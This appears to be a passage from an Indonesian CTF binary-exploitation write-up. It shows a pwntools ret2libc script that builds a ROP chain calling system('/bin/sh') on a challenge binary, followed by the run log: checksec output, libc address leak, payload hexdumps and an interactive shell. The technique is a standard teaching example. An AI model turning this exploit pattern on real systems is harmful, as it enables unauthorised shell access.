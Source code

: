 ```python
log.info("system %s " % hex(SYSTEM))
log.info("ret %s " % hex(RET))
log.info("pop rdi %s " % hex(RET))

# Menggabungkan menjadi 1 payload
rop2 = (b"A" * 28) + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)

# Send Payload
payload = rop2
p.sendline(payload)

log.success("Payload : " + str(payload))
log.success("Payload Size : " + str(len(payload)))
log.success(hexdump(payload))
puts = p.recvuntil("\n")

p.interactive()
```
Jalankan scriptnya
```
[*] '/home/rasyidmf/CTF-Unsolved/WBoF (Binary Exploitation)/wbof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[*] '/home/rasyidmf/CTF-Unsolved/WBoF (Binary Exploitation)/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to ctf.serangkota.go.id on port 9980: Done
[*] Sending buffer 160
[*] Loaded cached gadgets for './wbof'
[+] Payload : b'AAAAAAAAAAAAAAAAAAAAAAAAAAAA3\x13@\x00\x00\x00\x00\x00\x18@@\x00\x00\x00\x00\x000\x10@\x00\x00\x00\x00\x00\x1a\x10@\x00\x00\x00\x00\x00\x80\x10@\x00\x00\x00\x00\x00kaaalaaa'
[+] Payload Size : 76
[+] 00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  33 13 40 00  │AAAA│AAAA│AAAA│3·@·│
    00000020  00 00 00 00  18 40 40 00  00 00 00 00  30 10 40 00  │····│·@@·│····│0·@·│
    00000030  00 00 00 00  1a 10 40 00  00 00 00 00  80 10 40 00  │····│··@·│····│··@·│
    00000040  00 00 00 00  6b 61 61 61  6c 61 61 61               │····│kaaa│laaa││
    0000004c
[+] Puts address : 0x7f15407f15a0
[*] Sending buffer 160
[*] libc base address determined 0x7f154076a000
[*] bin/sh 0x7f15409215aa
[*] system 0x7f15407bf410
[*] ret 0x40101a
[*] pop rdi 0x40101a
[+] Payload : b'AAAAAAAAAAAAAAAAAAAAAAAAAAAA\x1a\x10@\x00\x00\x00\x00\x003\x13@\x00\x00\x00\x00\x00\xaa\x15\x92@\x15\x7f\x00\x00\x10\xf4{@\x15\x7f\x00\x00'
[+] Payload Size : 60
[+] 00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  1a 10 40 00  │AAAA│AAAA│AAAA│··@·│
    00000020  00 00 00 00  33 13 40 00  00 00 00 00  aa 15 92 40  │····│3·@·│····│···@│
    00000030  15 7f 00 00  10 f4 7b 40  15 7f 00 00               │····│··{@│····││
    0000003c
[*] Switching to interactive mode
$
```